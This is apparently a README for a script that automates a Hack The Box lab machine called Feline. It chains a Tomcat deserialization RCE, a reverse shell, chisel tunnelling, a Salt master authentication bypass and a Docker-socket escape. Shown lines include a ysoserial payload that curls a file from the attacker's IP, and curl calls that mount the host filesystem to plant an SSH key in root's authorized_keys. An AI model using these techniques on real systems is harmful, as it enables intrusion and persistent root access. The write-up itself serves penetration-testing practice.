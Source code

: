 # Automated Script to complete the Feline box

```
Nmap scan report for 10.129.4.55
Host is up (0.014s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## User Details:    
* Enumerating on 8080
* We discover file upload functionality. Sample request:
```
POST /upload.jsp?email=test@test.com HTTP/1.1
Host: 10.129.4.55:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.4.55:8080/service/
content-type: multipart/form-data; boundary=---------------------------210752969421274620151563543380
origin: http://10.129.4.55:8080
Content-Length: 231
Connection: close

-----------------------------210752969421274620151563543380
Content-Disposition: form-data; name="image"; filename="test.txt"
Content-Type: text/plain

hleooe

-----------------------------210752969421274620151563543380--
```

* Providing an invalid filename such as "." will reveal juicy info on where uploads are saved
![Error Message with invalid filename](./images/error1.png "Error Message")
* Based on the error message we can look up the version of apache
![CVE-2020-9484](./images/cve1.png "CVE-2020-9484")

### Attack Path
https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
* Exploit has prerequesities in order to be:
    * Need to have fileupload functionality - possible through upload.jsp
    * We need to be able to either know the name of the uploaded file - from the error message know the file is uploaded to /opt/samples/uploads
* To execute our exploit we have to:
    * Generate a serialized payload using ysoserial 
    * Upload the serialized payload in the file upload functionality
    * Provide a name for the file e.g. test.session
    * Modify JSESSIONID such that it points to our file e.g. ../../../../opt/samples/uploads/test
    * Make a follow up request to the site
* Had difficulties executing a reverse shell in one payload, so we can generate three seperate payloads:
    * First one pulls our over curl
    * Chmod +x the file
    * Execute it

### Automated User
* Requirements:
    * Serve content over http.server 
    * Chisel binary in the directory where you run http server
    * Ysoserial jar in the directory where you run the script
    ```
    os.system("""java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections6 'curl http://%s:%s/%s -o /opt/samples/uploads/%s' > %s""" % (attacker_ip,server_port,shellFilename,shellFilename,serialFilename))
    ```
* The automated script will use ysoserial and generate the payloads 
* Then it will make the follow up request to trigger the payload

Running the script with -t user
 ![Automated User Flag](./images/feline-user.gif "User Step")

## Intermediate Details:
* We find that a Salt Master is running on 4506
 ![Salt Discovery](./images/salt-host.png "Discovering Salt")
* Version is vulnerable to CVE-2020-11651 and use https://github.com/jasperla/CVE-2020-11651-poc
    * Authentication bypass allows us to pull the salt master root key
    * This allows us to arbitrarily issue and execute commands as the salt master

### Attack Path
 ![Attack Path](./images/exploit-path.png "Exploit Path")
* After gaining access to the tomcat user 
* We pivot to compromise the salt master
* Upon landing on the salt master we have access to the docker daemon. The "docker" executable is not found
* However we can manually issue commands to the docker daemon over unix sockets
* For example, docker run is a combination of the /containers/create and /containers/(id)/start API calls

### Automated Intermediate
* Gains reverse shell as user tomcat
* Downloads chisel binary onto the compromised machine
* Completes chisel tunnel so that we can access port 4506 on our attacking machine
* Initializes salt minion using python salt APIs
* Procures the root key from CVE-2020-11651
* Issues salt commands executed as the master
* Gains reverse shell on the salt master container

Running the script with -t user
 ![Automated Intermediate Step](./images/feline-intermediate.gif "Intermediate Step")

## Root Details:
* Upon landing on the salt master we have access to the docker daemon. The "docker" executable is not found
* However we can manually issue commands to the docker daemon over unix sockets
* For example, docker run is a combination of the /containers/create and /containers/(id)/start API calls
* We can start our own container, so we can mount host volume 
* Write SSH key to /root/.ssh/authorized_keys
* SSH into the host from the attacker VM as root


### Automation root
* Gains user shell
* Pivots to a shell on the salt master
* Uses paramiko to generate ssh keypairs
* Issues commands to the docker daemon over unix sockets, the payload writes our newly minted public key to /root/.ssh/authorized_keys
```
id=$(curl -s --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "sandbox:latest", "Binds" : ["/:/mnt:rw"] , "Cmd": ["/bin/sh", "-c", "chroot /mnt sh -c \\"%s\\"" ]}' http://localhost/containers/create | cut -d '"' -f4)
```
* Then starts the container
```
curl -X POST -s --unix-socket /var/run/docker.sock http://localhost/containers/${id}/start
```

Running the script with -t root
![Automated root Flag](./images/feline-root.gif "Root Step")

